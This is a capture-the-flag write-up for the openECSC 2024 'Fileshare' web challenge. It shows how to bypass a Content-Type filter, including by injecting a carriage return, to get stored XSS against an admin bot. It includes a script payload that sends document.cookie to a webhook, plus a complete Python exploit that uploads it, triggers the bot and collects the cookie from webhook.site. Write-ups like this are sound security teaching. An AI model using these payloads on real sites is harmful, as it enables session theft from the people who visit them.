 # openECSC 2024 - Round 1

## [web] Fileshare (257 solves)

You can now share your files for free thanks to our new disruptive technology!

Site: [https://fileshare.challs.open.ecsc2024.it](https://fileshare.challs.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The application allows uploading arbitrary files with a Content-Type that doesn't include the letter "h".

Then, you can report the uploaded file to the admin bot to be visited, the flag is stored as a cookie in the admin browser.


## Solution

To get the flag we need to force the admin bot to execute a script, there are multiple solution paths for this problem:

- Find a Content-Type allowing script execution, without the "h" letter, like `text/xml`.

- Abuse the content sniff feature of the browser by setting an invalid Content-Type.

- Adding the "\r" character in the Content-Type, causing the PHP code to refuse setting the header. This causes the server to use the default `text/html` value as Content-Type


Using the XSS we can easily leak the flag to a webhook with a payload similar to:

```html
<script>
    location = 'https://YOUR-WEBHOOK/?' + document.cookie;
</script>
```

## Exploit
```python
import requests
import re
import time

chall_url = "https://fileshare.challs.open.ecsc2024.it/"


r = requests.post('https://webhook.site/token')
token_id = r.json()['uuid']

payload = f'''
<script>
    location = 'https://webhook.site/{token_id}/?' + document.cookie;
</script>
'''

files = {
    'file': ('payload.html', payload, 'aaa\rbbb')
}

response = requests.post(chall_url + '/upload.php', files=files)

assert 'has been uploaded' in response.text

id = re.search(r'/download\.php\?id=(\w+)"', response.text)[1]

response = requests.post(chall_url + '/support.php', data={'fileid': id, 'message': 'test'})

assert 'Thank you, we are taking care of your problem!' in response.text

for _ in range(10):
    r = requests.get('https://webhook.site/token/'+ token_id +'/requests')

    for request in r.json()['data']:
        m = re.search(r'openECSC\{.+\}', request['url'])
        if (m):
           print(m.group(0))
           exit()
           
    time.sleep(2)

```
